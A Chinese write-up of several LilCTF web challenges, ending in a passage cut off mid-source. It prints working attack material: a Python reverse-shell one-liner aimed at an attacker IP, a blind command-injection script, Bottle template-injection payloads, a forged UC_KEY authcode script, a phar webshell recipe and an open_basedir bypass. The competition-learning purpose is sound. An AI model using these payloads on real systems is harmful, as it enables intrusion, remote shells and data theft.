



# Web

## 接力！TurboFlash

附件：

server.py:

```python
# pylint: disable=missing-module-docstring,missing-function-docstring

import os
from flask import Flask

app = Flask(__name__)


@app.route("/")
def index():
    return "<h1>Hello, CTFer!</h1>"


@app.route("/secret")
def secret():
    return os.getenv("LILCTF_FLAG", "LILCTF{default}")


if __name__ == "__main__":
    app.run("0.0.0.0", 8080, debug=False)
```

nginx.conf:

```
server {
    listen       80;
    server_name  localhost;

    location ~* ^/secret/?$ {
        deny all;
        return 403;
    }

    location ~* ^/secret/ {
        deny all;
        return 403;
    }

    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

Nginx 会屏蔽 `/secret` 和 `/secret/` 后接任意路径的请求，实际上也会屏蔽 `/./secret/`, `/SeCrEt`, `/%73ecret` 等等你能想到的绕过方式。而 Flask 会在访问到 `/secret` 路由时返回 flag。

我们需要寻找不被 Nginx 认为算是 `/secret`，但会被 Flask 认为算是 `/secret` 的路径。

答案：`/secret` 后跟 `\x85` 这个字节。不是 `%85`，而是在 HTTP 报文中直接发出这一个字节。（可以从 CyberChef 或 010 Editor 中复制它，或者用 socket 或 pwntools 发包。）

https://github.com/dub-flow/path-normalization-bypasses

算是一个小技巧，

---

## Ekko_note

源码：

```
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2066/07/05 19:20:29
@Author  :   Ekko exec inc. 某牛马程序员 
'''
import os
import time
import uuid
import requests

from functools import wraps
from datetime import datetime
from secrets import token_urlsafe
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask import Flask, render_template, redirect, url_for, request, flash, session

SERVER_START_TIME = time.time()

# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)

admin_super_strong_password = token_urlsafe()
app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key-here' # 我真服了
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(60), nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')

class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    token = db.Column(db.String(36), unique=True, nullable=False)
    used = db.Column(db.Boolean, default=False)

def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

with app.app_context():
    db.create_all()
    if not User.query.filter_by(username='admin').first():
        admin = User(
            username='admin',
            email='admin@example.com',
            password=generate_password_hash(admin_super_strong_password),
            is_admin=True
        )
        db.session.add(admin)
        db.session.commit()

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function

def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        user = User.query.get(session['user_id'])
        if not user.is_admin:
            flash('你不是admin', 'danger')
            return redirect(url_for('home'))
        return f(*args, **kwargs)
    return decorated_function

def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('date')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
@app.route('/')
def home():
    return render_template('home.html')

@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if password != confirm_password:
            flash('密码错误', 'danger')
            return redirect(url_for('register'))

        existing_user = User.query.filter_by(username=username).first()
        if existing_user:
            flash('已经存在这个用户了', 'danger')
            return redirect(url_for('register'))

        existing_email = User.query.filter_by(email=email).first()
        if existing_email:
            flash('这个邮箱已经被注册了', 'danger')
            return redirect(url_for('register'))

        hashed_password = generate_password_hash(password)
        new_user = User(username=username, email=email, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()

        flash('注册成功，请登录', 'success')
        return redirect(url_for('login'))

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')

        user = User.query.filter_by(username=username).first()
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            session['username'] = user.username
            session['is_admin'] = user.is_admin
            flash('登陆成功，欢迎!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('用户名或密码错误!', 'danger')
            return redirect(url_for('login'))

    return render_template('login.html')

@app.route('/logout')
@login_required
def logout():
    session.clear()
    flash('成功登出', 'info')
    return redirect(url_for('home'))

@app.route('/dashboard')
@login_required
def dashboard():
    return render_template('dashboard.html')

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')

@app.route('/reset_password', methods=['GET', 'POST'])
def reset_password():
    if request.method == 'POST':
        token = request.form.get('token')
        new_password = request.form.get('new_password')
        confirm_password = request.form.get('confirm_password')

        if new_password != confirm_password:
            flash('密码不匹配', 'danger')
            return redirect(url_for('reset_password'))

        reset_token = PasswordResetToken.query.filter_by(token=token, used=False).first()
        if reset_token:
            user = User.query.get(reset_token.user_id)
            user.password = generate_password_hash(new_password)
            reset_token.used = True
            db.session.commit()
            flash('成功重置密码！请重新登录', 'success')
            return redirect(url_for('login'))
        else:
            flash('无效或过期的token', 'danger')
            return redirect(url_for('reset_password'))

    return render_template('reset_password.html')

@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
    if result is None:
        flash("API死了啦，都你害的啦。", "danger")
        return redirect(url_for('dashboard'))

    if not result:
        flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
        return redirect(url_for('dashboard'))

    if request.method == 'POST':
        command = request.form.get('command')
        os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
        return redirect(url_for('execute_command'))

    return render_template('execute_command.html')

@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))

    return render_template('admin_settings.html', time_api=user.time_api)

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")

```

代码总结一下就是：有一个time_api默认值是https://api.uuni.cn//api/time 可以获得现在的时间。这个web app有一个任意RCE的接口，但是必须要从这个time_api中获取的时间大于2066年才可以。而存在一个admin账户，他可以设置time_api的值。

所以只要我们能够登录上admin账户，并且伪造一个time_api，让他返回一个大于2066年的时间即可。然后我们就能任意RCE。

比赛的时候我使用的是非预期，这里学一下预期解。

可以注意到这里的随机种子。

```
# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。Ekko大人不会怪我的。
import random
random.seed(SERVER_START_TIME)
```

确实，整个脚本没有地方再调用random库了。但是，这不代表，这个脚本所引用的第三方库不调用random库。

整个鉴权逻辑里，有两个地方使用了随机数，分别是admin的密码，以及找回密码时生成的token。

admin的密码生成逻辑：

```
admin_super_strong_password = token_urlsafe() 
```

token_urlsafe的逻辑：

```
_sysrand = SystemRandom()
DEFAULT_ENTROPY = 32  # number of bytes to return by default

def token_bytes(nbytes=None):
    """Return a random byte string containing *nbytes* bytes.

    If *nbytes* is ``None`` or not supplied, a reasonable
    default is used.

    >>> token_bytes(16)  #doctest:+SKIP
    b'\\xebr\\x17D*t\\xae\\xd4\\xe3S\\xb6\\xe2\\xebP1\\x8b'

    """
    if nbytes is None:
        nbytes = DEFAULT_ENTROPY
    return _sysrand.randbytes(nbytes)
def token_urlsafe(nbytes=None):
    """Return a random URL-safe text string, in Base64 encoding.

    The string has *nbytes* random bytes.  If *nbytes* is ``None``
    or not supplied, a reasonable default is used.

    >>> token_urlsafe(16)  #doctest:+SKIP
    'Drmhze6EPcv0fN_81Bj-nA'

    """
    tok = token_bytes(nbytes)
    return base64.urlsafe_b64encode(tok).rstrip(b'=').decode('ascii')
```

这里使用的是SystemRandom()

但是查询之后发现SystemRandom函数产生的序列是不可再生的，因为其随机性来自系统，而不是来自软件状态（seed()，和setstate()不起作用）

所以我们就只剩下忘记密码的API用到随机数

```
@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')
```

这里做了相当多的引导。生成token使用的是`uuid8()`函数。这是python3.14+的新函数。我们跟进：

看到这个statement：

```
By default, a, b and c are not generated by a cryptographically secure pseudo-random number generator (CSPRNG). Use uuid4() when a UUID needs to be used in a security-sensitive context.
```

说明随机数种子有效，去跟进函数代码（截止于2025.10.1 python 3.14还没有发布正式版，我们可以安装3.140a1，或者直接去cpython的仓库看）：

```
def uuid8(a=None, b=None, c=None):
    """Generate a UUID from three custom blocks.

    * 'a' is the first 48-bit chunk of the UUID (octets 0-5);
    * 'b' is the mid 12-bit chunk (octets 6-7);
    * 'c' is the last 62-bit chunk (octets 8-15).

    When a value is not specified, a pseudo-random value is generated.
    """
    if a is None:
        import random
        a = random.getrandbits(48)
    if b is None:
        import random
        b = random.getrandbits(12)
    if c is None:
        import random
        c = random.getrandbits(62)
    int_uuid_8 = (a & 0xffff_ffff_ffff) << 80
    int_uuid_8 |= (b & 0xfff) << 64
    int_uuid_8 |= c & 0x3fff_ffff_ffff_ffff
    # by construction, the variant and version bits are already cleared
    int_uuid_8 |= _RFC_4122_VERSION_8_FLAGS
    return UUID._from_int(int_uuid_8)
```

由于使用的是默认配置。token完全由`random.getrandbits()`生成，可以完全预测出这个token

可以得到admin的注册邮箱为admin@example.com，所以我们更改这个邮箱的密码。先根据种子生成一个UUID8，取前八位：

```
import random
import uuid
random.seed(1754662952.3222806)
def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

print(uuid.uuid8(a=padding('admin')))
```



然后更改密码



登录。

然后看看原始的API https://api.uuni.cn//api/time 返回的



```
def check_time_api():
    # False: 时间小于2066年
    # True: 时间大于2066年
    # None: API坏了

    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        if response.status_code == 200:
            data = response.json()
            datetime_str = data.get('date', '')
            if datetime_str:
                current_time = datetime.fromisoformat(datetime_str)
                return current_time.year >= 2066
    except Exception as e:
        return None
    return None
```

所以我们可以在VPS上起一个假的时间API，返回2066年之后时间的datetime字段的json数据。

```
from http.server import BaseHTTPRequestHandler, HTTPServer
import json

class JSONRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            data = {"date": "2099-07-05 00:00:00"}
        self.send_response(200)
        self.send_header("Content-Type", "application/json")
        self.end_headers()
        self.wfile.write(json.dumps(data).encode("utf-8"))

def run(server_class=HTTPServer, handler_class=JSONRequestHandler, port=5051):
    server_address = ("0.0.0.0", port)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```

当时比赛中自己用php写的api

```
<?php
header('Content-Type: application/json'); // 确保返回 JSON 格式

$fake_time_data = [
    "date" => "2066-01-01 00:00:00",  // 关键：返回 2066 年的时间
    "weekday" => "星期五",
    "timestamp" => 3000000000,         // 未来时间戳
    "remark" => "Hacked by CTF Player"
];

echo json_encode($fake_time_data, JSON_UNESCAPED_UNICODE);
?>
```

之后就是弹shell，时间盲注、或者写入文件。

反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("你的IP",你的端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

比赛时用的payload：

```
mkdir static;ls / > static/1.txt
cat /flag.txt > static/2.txt
```

以及时间盲注脚本

```
import requests
import time

url = "http://challenge.xinshi.fun:38899/execute_command"
cookies = {
    "session": "eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6MSwidXNlcm5hbWUiOiJhZG1pbiJ9.aJ75HQ.mrngiiFtMg73UlO-3IFC58OnbP0"
}

result = ""
session = requests.session()

# 先获取基准响应时间
def get_baseline():
    normal_payload = {"command": "echo baseline"}
    start = time.time()
    requests.post(url, cookies=cookies, data=normal_payload)
    return time.time() - start

baseline = get_baseline()
print(f"基准响应时间: {baseline:.3f}秒")

for i in range(1, 5):  # 假设获取前4行
    row_result = ""
    for j in range(1,100):  
        for k in range(32, 128):
            char = chr(k)
            time.sleep(0.1)
            # 使用$(...)代替反引号
            payload = {
                "command": f"if [ \"$(cat /flag | awk 'NR=={i}' | cut -c {j})\" = \"{char}\" ]; then sleep 2; fi"
            }
            try:
                start = time.time()
                session.post(url, cookies=cookies, data=payload, timeout=3)
                elapsed = time.time() - start
                # 判断延迟是否明显超过基准
                if elapsed > baseline + 1.5:  # 1.5秒阈值
                    row_result += char
                    print(f"行{i} 当前结果: {row_result}")
                    break
            except requests.exceptions.Timeout:
                row_result += char
                print(f"行{i} 当前结果: {row_result}")
                break
            except Exception as e:
                print(f"请求出错: {e}")
                time.sleep(1)  # 出错后等待1秒
    result += row_result + "\n"
    print(f"当前完整结果:\n{result}")
```

---

## ez_bottle

源码：

```
from bottle import route, run, template, post, request, static_file, error
import os
import zipfile
import hashlib
import time

UPLOAD_DIR = os.path.join(os.path.dirname(__file__), 'uploads')
os.makedirs(UPLOAD_DIR, exist_ok=True)

STATIC_DIR = os.path.join(os.path.dirname(__file__), 'static')
MAX_FILE_SIZE = 1 * 1024 * 1024

BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals",
              "get", "open"]


def contains_blacklist(content):
    return any(black in content for black in BLACK_DICT)


def is_symlink(zipinfo):
    return (zipinfo.external_attr >> 16) & 0o170000 == 0o120000


def is_safe_path(base_dir, target_path):
    return os.path.realpath(target_path).startswith(os.path.realpath(base_dir))


@route('/')
def index():
    return static_file('index.html', root=STATIC_DIR)


@route('/static/<filename>')
def server_static(filename):
    return static_file(filename, root=STATIC_DIR)


@route('/upload')
def upload_page():
    return static_file('upload.html', root=STATIC_DIR)


@post('/upload')
def upload():
    zip_file = request.files.get('file')
    if not zip_file or not zip_file.filename.endswith('.zip'):
        return 'Invalid file. Please upload a ZIP file.'

    if len(zip_file.file.read()) > MAX_FILE_SIZE:
        return 'File size exceeds 1MB. Please upload a smaller ZIP file.'

    zip_file.file.seek(0)

    current_time = str(time.time())
    unique_string = zip_file.filename + current_time
    md5_hash = hashlib.md5(unique_string.encode()).hexdigest()
    extract_dir = os.path.join(UPLOAD_DIR, md5_hash)
    os.makedirs(extract_dir)

    zip_path = os.path.join(extract_dir, 'upload.zip')
    zip_file.save(zip_path)

    try:
        with zipfile.ZipFile(zip_path, 'r') as z:
            for file_info in z.infolist():
                if is_symlink(file_info):
                    return 'Symbolic links are not allowed.'

                real_dest_path = os.path.realpath(os.path.join(extract_dir, file_info.filename))
                if not is_safe_path(extract_dir, real_dest_path):
                    return 'Path traversal detected.'

            z.extractall(extract_dir)
    except zipfile.BadZipFile:
        return 'Invalid ZIP file.'

    files = os.listdir(extract_dir)
    files.remove('upload.zip')

    return template("文件列表: {{files}}\n访问: /view/{{md5}}/{{first_file}}",
                    files=", ".join(files), md5=md5_hash, first_file=files[0] if files else "nofile")


@route('/view/<md5>/<filename>')
def view_file(md5, filename):
    file_path = os.path.join(UPLOAD_DIR, md5, filename)
    if not os.path.exists(file_path):
        return "File not found."

    with open(file_path, 'r', encoding='utf-8') as f:
        content = f.read()

    if contains_blacklist(content):
        return "you are hacker!!!nonono!!!"

    try:
        return template(content)
    except Exception as e:
        return f"Error rendering template: {str(e)}"


@error(404)
def error404(error):
    return "bbbbbboooottle"


@error(403)
def error403(error):
    return "Forbidden: You don't have permission to access this resource."


if __name__ == '__main__':
    run(host='0.0.0.0', port=5000, debug=False)
```

源码里大概就是一个web的文件上传，在前端并没有直接给上传功能，需要自己写脚本，对于上传的内容有`template(content)`可以解析内容，明显的漏洞点

题目对于上传的文件进行了简单的处理，比如限制文件大小，限制的目录穿越，限制了软链接，所以题目的核心就是利用模板注入绕过waf写入到文件里，进行文件上传最后解析读取文件

对于content的内容有简单的限制，最主要的就是把花括号进行了过滤。

但是bottle框架还有%注入的语法

后把常见的一些过滤了，但是很明显是没有过滤掉import的，所以可以通过导入来进行rce,我提供的思路是进行复制，然后再通过include读取拿到flag，主要是两个方案

方案一、

```
% import shutil;shutil.copy('/flag', './aaa')
```

方案二、

```
%import subprocess; subprocess.call(['cp', '/flag', './aaa'])
```

然后可以include的读取了

```
% include("aaa")
```

方案三：、

```
% import bottle
#setattr(bottle, 'TEMPLATE_PATH', ['/'])动态修改 bottle 模块的 TEMPLATE_PATH为/
% setattr(bottle, 'TEMPLATE' + chr(95) + 'PATH', ['/']) #chr(95)绕过_过滤
% include('flag')
```

---

然后由于前端没有给出直接的上传入口，需要写脚本进行上传

```
import requests
import re

BASE_URL = "http://ip:port"

with open('payload.zip', 'rb') as file:
    files = {"file": ('payload.zip', file)}
    res = requests.post(url=f"{BASE_URL}/upload", files=files)

upload_response = res.text
print("Upload Response:", upload_response)

match = re.search(r"/view/([\w-]+)/([\w\-]+)", upload_response)
if not match:
    print("Failed to extract MD5 and filename from response.")
    exit()

md5, filename = match.groups()
print(f"Extracted MD5: {md5}, Filename: {filename}")

view_res = requests.get(f"{BASE_URL}/view/{md5}/{filename}")
print("Response:", view_res.text)
```

---

比赛时使用的payload：

```
% x = vars()['\x5f\x5fbuiltins\x5f\x5f']['\x6f\x70\x65\x6e']('/flag').read()
% f = vars()['\x5f\x5fbuiltins\x5f\x5f']['\x6f\x70\x65\x6e']('./static/flag.txt', 'w')
% f.write(x)
% f.flush()
```

文件上传我使用的是html表单

然后访问static/flag.txt

---

## Your Uns3r

源码：

```
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      ?>+/var/www/html/index.php HTTP/1.1
Host: xxxxxxxxxxxxxx
Content-Type: application/x-www-form-urlencoded

user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3BS%3A5%3A%22%5C61dmin%22%3Bs%3A5%3A%22value%22%3Bs%3A147%3A%22O%3A6%3A%22LilRan%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00prefix%22%3Bs%3A15%3A%22%2Fusr%2Flocal%2Flib%2F%22%3Bs%3A9%3A%22%00%2A%00suffix%22%3Bs%3A19%3A%22%2F..%2Fphp%2Fpeclcmd.php%22%3Bs%3A27%3A%22__PHP_Incomplete_Class_Name%22%3Bs%3A6%3A%22Access%22%3B%7D%22%3B&0=system('/readflag');
```

---

## 我曾有一份工作

Dirsearch 扫目录可以得到 www.zip

在 www.zip 里面泄露了 UC_KEY，可以使用这个key去调用api的接口

```
<?php


define('UC_CONNECT', 'mysql');
define('UC_STANDALONE', 0);

define('UC_DBHOST', 'localhost');
define('UC_DBUSER', 'root');
define('UC_DBPW', '123456');
define('UC_DBNAME', 'lilctf');
define('UC_DBCHARSET', 'utf8mb4');
define('UC_DBTABLEPRE', '`lilctf`.pre_ucenter_');
define('UC_DBCONNECT', 0);

define('UC_AVTURL', '');
define('UC_AVTPATH', '');

define('UC_CHARSET', 'utf-8');
define('UC_KEY', 'N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb');
define('UC_API', 'http://192.168.114.134/uc_server');
define('UC_APPID', '1');
define('UC_IP', '');
define('UC_PPP', 20);
?>
```

接口的功能需要代码审计，不只有下面这个路由有这个功能

把 api/db/dbbak.php 丢给AI审能得到脚本

在 api/db/dbbak.php里，可以备份数据库，且备份后的路径是可访问

```
f($get['method'] == 'export') {

	$db->query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

	$time = date("Y-m-d H:i:s", $timestamp);

	$tables = array();
	$tables = arraykeys2(fetchtablelist($tablepre), 'Name');

	if($apptype == 'discuz') {
		$query = $db->query("SELECT datatables FROM {$tablepre}plugins WHERE datatables<>''");
		while($plugin = $db->fetch_array($query)) {
			foreach(explode(',', $plugin['datatables']) as $table) {
				if($table = trim($table)) {
					$tables[] = $table;
				}
			}
		}
	}
	if($apptype == 'discuzx') {
		$query = $db->query("SELECT datatables FROM {$tablepre}common_plugin WHERE datatables<>''");
		while($plugin = $db->fetch_array($query)) {
			foreach(explode(',', $plugin['datatables']) as $table) {
				if($table = trim($table)) {
					$tables[] = $table;
				}
			}
		}
	}
```

调用 export 方法即可

code参数的加解密要抄源码里的

```
<?php

define('UC_KEY', 'N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb');

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;

        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);

        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);

        $result = '';
        $box = range(0, 255);

        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
                $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }

        for($j = $i = 0; $i < 256; $i++) {
                $j = ($j + $box[$i] + $rndkey[$i]) % 256;
                $tmp = $box[$i];
                $box[$i] = $box[$j];
                $box[$j] = $tmp;
        }

        for($a = $j = $i = 0; $i < $string_length; $i++) {
                $a = ($a + 1) % 256;
                $j = ($j + $box[$a]) % 256;
                $tmp = $box[$a];
                $box[$a] = $box[$j];
                $box[$j] = $tmp;
                $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }

        if($operation == 'DECODE') {
                if(((int)substr($result, 0, 10) == 0 || (int)substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) === substr(md5(substr($result, 26).$keyb), 0, 16)) {
                        return substr($result, 26);
                } else {
                                return '';
                        }
        } else {
                return $keyc.str_replace('=', '', base64_encode($result));
        }

}

function encode_arr($get) {
        $tmp = '';
        foreach($get as $key => $val) {
                $tmp .= '&'.$key.'='.$val;
        }
        return _authcode($tmp, 'ENCODE', UC_KEY);
}

$get = array('time'=>time(),'method'=>'export');
$res = encode_arr($get);
echo $res;


```

发送过去

```
/api/db/dbbak.php?code=fee5mf%2FqyNFtfSKzhhvUQEoapGYW5g%2FS2M2tLznC%2FHpTb5%2B70%2BCsF9VwPfpVSzVcgp8zWasNge0YVbk&apptype=discuzx
```

最后访问得到的 sql文件，将备份的数据库下载下来，在里面能够找到flag

需要注意的是，dump下来的数据用了hex编码，找flag的时候可以使用flag头去定位

---

## php-jail-is-my-cry

参考链接：

https://github.com/Lil-House/LilCTF-2025/blob/main/players-writeup/SS/lilctf2025-web.md

### 前置知识

#### phar include gz 压缩解析漏洞上马

通过制作恶意phar文件（里面包含php一句话），将phar压缩为gz，绕过后缀名过滤和文件内容过滤，上传后进行文件包含，执行php一句话

例如：创建一个test.phar文件

```
<?php
	system('whoami');
	__HALT_COMPILER();?>
```

然后gz压缩

```
gzip -c test.phar > test.phar.gz
```

然后使用include包含，成功运行命令

---

#### PHP 8.3高版本绕过open_basedir

open_basedir会限制只能访问某个目录。

我们可以利用

```
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
```

再加上 `file://` 协议即可绕过 open_basedir 的限制，可以读取任意的文件。

利用：

```
$orig = $_POST[0];
$ch = curl_init($orig);
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
echo $data;
curl_close($ch);
```

我们可以读取任意的文件, 传参为 `file://` 协议即可任意读文件

---

#### cn-ext漏洞

[从多个比赛引发的CVE-2024-2961漏洞学习思考-先知社区](https://xz.aliyun.com/news/14986)

https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py

---

### 解题思路

源码：

```
<?php
if (isset($_POST['url'])) {
    $url = $_POST['url'];
    $file_name = basename($url);
    
